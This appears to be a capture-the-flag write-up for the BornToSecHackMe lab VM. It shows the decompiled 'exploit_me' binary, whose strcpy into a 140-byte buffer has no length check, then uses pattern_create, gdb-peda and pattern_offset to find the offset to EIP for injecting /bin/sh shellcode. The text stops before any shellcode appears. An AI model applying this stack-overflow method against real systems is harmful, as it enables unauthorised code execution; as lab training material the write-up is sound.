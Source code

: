 ```bash
zaz@BornToSecHackMe:~$ ./exploit_me abc
abc
```

The program print the args on the stdout.

By decompiling the file, we understand that the program copy the string into a buffer of 140 and print it to the stdout.

```bash
bool main(int param_1,int param_2)
{
char local_90 [140];
if (1 < param_1) {
	strcpy(local_90,*(char **)(param_2 + 4));
	puts(local_90);
}
return param_1 < 2;
}
```

The program doesn't check any length so if we write more than 140, the program crashes.

So we can exploit the program with a buffer overflow attack.
The goal is to write something into the memory and make it executed by the program.
We will write a code to spawn a shell with execve and /bin/sh.

First, we have to calculate the offset.

With Kali Linux, we can create a random string pattern to calculate it:

> msg-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
> 

Now we will run the program with GDB and the "PEDA" plugin ([https://github.com/longld/peda](https://github.com/longld/peda)).
gdb-peda will give us many interesting informations.

> gdb --args ./exploit_me Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
> 

We can see all the registers and the EIP registers that is the register we want to overwrite.

In the EIP register we can see: 6Ae7

So we run the following command to get our offset

> msf-pattern_offset -q 6Ae7
[*] Exact match at offset 140
> 

We need to pad our input with 140 characters before adding our shellcode that will be written on the memory.
